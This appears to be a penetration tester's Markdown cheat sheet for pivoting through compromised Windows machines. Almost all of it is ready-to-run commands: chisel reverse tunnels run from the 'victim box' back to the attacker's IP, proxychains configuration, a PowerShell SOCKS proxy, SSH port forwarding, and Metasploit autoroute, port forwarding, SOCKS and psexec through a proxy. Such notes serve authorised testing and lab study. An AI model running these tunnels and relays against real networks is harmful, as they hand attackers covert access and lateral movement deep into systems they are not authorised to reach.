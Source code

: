 # Windows pivoting

### Added nmap portable for linux systems to port scan.

### Chisel for Windows
https://github.com/jpillora/chisel/releases

```
Understanding => R:1234(Remote Port):127.0.0.1(localhost):1234(Local Port)


Victims Box: .\chisel.exe client <attackersIP>:8011 R:1234:127.0.0.1:1234
Attackers Box: .\chisel.exe server -p 8011 --reverse
```

### ippsec demonstration Proxychains
https://www.youtube.com/watch?v=Yp4oxoQIBAM&t=5446  

```
Configuring Proxychains:

vim /etc/proxychains.conf

comment proxy_dns
uncomment quiet_mode
remove any entries within proxy list
add socks5 127.0.0.1 1080

Setting up chisel:

attackers box: 
./chisel server -p 8000 --reverse

victims box:
.\chisel.exe client <attackersIP>:8000 R:8001:127.0.0.1:1337

victims box:
.\chisel.exe server -p 1337 --socks5

attackers box:
./chisel client 127.0.0.1:8001 socks

Testing proxychains command:

proxychains nmap -sT <TargetIP> -p445 -Pn
proxychains evil-winrm.rb -i <IP> -u user -p pass
```

### Standard Proxychains:  

https://medium.com/@vegardw/reverse-socks-proxy-using-chisel-the-easy-way-48a78df92f29  

```
./chisel server -p 8080 --reverse

.\chisel.exe client <IP>:8080 R:socks

Edit Proxychains config file:
/etc/proxychains.conf

Add the following:
socks5 127.0.0.1 1080
```

### Using powershell to SOCKS Proxy (Thanks to @sinfulz for recommending this)
```
From Kali: Edit /etc/proxychains.conf, add "socks5 9080" at the bottom.
From Victim Box: Import-Module .\Invoke-SocksProxy.ps1
From Victim Box: Invoke-SocksProxy -bindPort 9080
From Kali: proxychains nmap -sT <target_IP> -Pn
```

### Port Forwarding using SSH
```
ssh -L <PORT>:127.0.0.1:<PORT> <USERNAME>@<REMOTE_ADDR>
ssh -L <PORT>:127.0.0.1:<PORT> <USERNAME>@<REMOTE_ADDR> -p 22
```

### routing through msf
```
run autoroute –s IP/24
use post/multi/manage/autoroute

socks proxy
use auxiliary/server/socks_proxy
```

### port forward through msf
```
Portfwd add -L 127.0.0.1 -l 445 -p 445 -r targetIP
portfwd add -L 127.0.0.1 -l 139 -p 139 -r targetIP
```

### route in msf

```
route add 192.168.1.0 255.255.255.0 1
```

### reverse proxy using msf and pivoting using psexec

```
server/socks5 => run

windows/smb/psexec
set params
set proxies socks5://127.0.0.1:1080
set ReverseAllowProxy true
```
